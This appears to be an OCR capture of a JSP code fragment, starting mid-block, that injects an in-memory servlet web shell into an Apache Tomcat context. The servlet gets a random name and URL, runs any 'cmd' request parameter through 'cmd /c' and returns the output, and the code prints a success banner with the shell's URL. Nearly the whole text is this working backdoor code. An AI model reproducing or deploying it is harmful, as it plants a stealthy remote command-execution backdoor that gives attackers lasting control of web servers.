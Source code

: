 ```bash
        String servletURL = "/" + getRandomString();
        String servletName = "Servlet" + getRandomString();
        Servlet servlet = new Servlet() {
            @Override
            public void init(ServletConfig servletConfig) {}
            @Override
            public ServletConfig getServletConfig() {
                return null;
            }
            @Override
            public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
                String cmd = servletRequest.getParameter("cmd");
                {
                    InputStream in = Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream();
                    Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.setCharacterEncoding("GBK");
                    PrintWriter out = servletResponse.getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
                }
            }
            @Override
            public String getServletInfo() {
                return null;
            }
            @Override
            public void destroy() {
            }
        };
        Wrapper wrapper = standardContext.createWrapper();
        wrapper.setName(servletName);
        wrapper.setServlet(servlet);
        wrapper.setServletClass(servlet.getClass().getName());
        wrapper.setLoadOnStartup(1);
        standardContext.addChild(wrapper);
        standardContext.addServletMappingDecoded(servletURL, servletName);
        response.getWriter().write("[+] Success!!!<br><br>[*] ServletURL:&nbsp;&nbsp;&nbsp;&nbsp;" + servletURL + "<br><br>[*] ServletName:&nbsp;&nbsp;&nbsp;&nbsp;" + servletName + "<br><br>[*] shellURL:&nbsp;&nbsp;&nbsp;&nbsp;http://localhost:8080/test" + servletURL + "?cmd=echo 世界，你好！");
    } catch (Exception e) {
        String errorMessage = e.getMessage();
        response.setCharacterEncoding("UTF-8");
        PrintWriter outError = response.getWriter();
        outError.println("Error: " + errorMessage);
        outError.flush();
        outError.close();
    }
%>
</body>
</html>
<%!
    private String getRandomString() {
        String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
        StringBuilder randomString = new StringBuilder();
        for (int i = 0; i < 8; i++) {
            int index = (int) (Math.random() * characters.length());
            randomString.append(characters.charAt(index));
        }
        return randomString.toString();
    }
```